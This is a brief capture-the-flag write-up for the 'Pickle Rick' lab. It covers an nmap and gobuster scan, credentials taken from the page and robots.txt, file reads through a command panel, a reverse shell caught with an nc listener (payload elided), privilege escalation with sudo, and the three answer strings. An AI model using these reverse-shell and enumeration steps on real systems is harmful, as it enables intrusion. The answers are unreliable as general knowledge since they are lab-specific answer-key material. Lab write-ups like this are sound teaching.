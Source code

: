 # Pickle Rick

## nmap
ports:

- 22 (ssh)

- 80 (http)


## website

http://$IP

=> Username=R1ckRul3s


http://$IP/robots.txt

=> Password=Wubbalubbadubdub

## gobuster
```bash
gobuster dir -u $IP -w /opt/wordlists/dirs/dsstorewordlists.txt
```

=> /login.php


### "What is the first ingredient that Rick needs?"
```bash
read file < Sup3rS3cretPickl3Ingred.txt && echo $file
```

==> **mr. meeseek hair**


### "What is the second ingredient in Rick's potion?"
```bash
read file < /home/rick/second ingredients && echo $file
```

==> **1 jerry tear**


### "What is the last and final ingredient?"
```bash
# through portal.php
python -c '...' # python reverse shell

# local machine
nc -lnvp <port>

sudo -i
cat 3rd.txt
```

==> **fleeb juice**
